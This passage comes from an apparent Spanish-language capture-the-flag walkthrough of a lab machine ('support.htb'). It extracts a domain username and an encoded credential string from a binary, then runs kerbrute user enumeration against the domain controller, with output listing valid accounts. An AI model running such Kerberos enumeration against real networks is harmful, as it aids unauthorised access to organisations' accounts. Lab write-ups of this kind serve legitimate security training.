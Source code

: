 En este caso hacemos uso del formato  `UTF-16LE` (Unicode en little-endian), que es el formato que usa Windows para representar texto en archivos ejecutables

Lograremos ver un posible usuario válido a nivel de dominio, generaremos un listado de usuarios

~~~ bash
support\ldap

cat users.txt 
ldap
~~~

Además vemos una cadena un tanto peculiar, que podría ser una credencial con o sin codificación

~~~ text
0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E
~~~


## Kerberos User Validation

Validaremos este usuario frente al protocolo `kerberos`
 
~~~ bash
kerbrute userenum --dc 10.10.11.174 -d support.htb users.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 04/08/25 - Ronnie Flathers @ropnop

2025/04/08 18:04:08 >  Using KDC(s):
2025/04/08 18:04:08 >  	10.10.11.174:88

2025/04/08 18:04:08 >  [+] VALID USERNAME:	ldap@support.htb
2025/04/08 18:04:08 >  Done! Tested 1 usernames (1 valid) in 0.150 seconds
~~~

Y el usuario es válido, además podemos usar un diccionario de `seclists` para intentar enumerar más usuarios potenciales válidos para el dominio `support.htb`

~~~ bash
kerbrute userenum --dc 10.10.11.174 -d support.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 04/08/25 - Ronnie Flathers @ropnop

2025/04/08 18:04:54 >  Using KDC(s):
2025/04/08 18:04:54 >  	10.10.11.174:88

2025/04/08 18:05:02 >  [+] VALID USERNAME:	support@support.htb
2025/04/08 18:05:06 >  [+] VALID USERNAME:	guest@support.htb
2025/04/08 18:05:32 >  [+] VALID USERNAME:	administrator@support.htb
~~~
